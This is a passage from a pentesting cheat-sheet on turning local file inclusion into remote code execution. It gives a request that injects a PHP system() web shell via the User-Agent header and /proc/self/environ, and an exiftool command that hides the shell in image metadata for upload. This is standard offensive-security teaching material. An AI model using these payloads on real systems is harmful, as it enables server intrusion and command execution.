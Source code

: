 Like a log file, sending the payload in the User-Agent, it will be reflected inside the /proc/self/environ file.

```
GET /include.php?file=../../../../proc/self/environ&cmd=id HTTP/1.O
Host: example.com
User-Agent: <?php system($_GET["cmd"]);?>
```

## Via Upload

If exists a functionality that leads us to upload an arbitrary file, we can upload directly a reverse shell or simply upload a image with the payload injected on metadata.

To modify metadata of a file we can use exiftool.

```
exiftool -DocumentName='<?php system($_GET["cmd"]);?>' myimage.jpg
```

Once uploaded we can access it.

```
/include.php?file=../../uploads/myimage.jpg&cmd=id
```

# References

* [https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)
* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
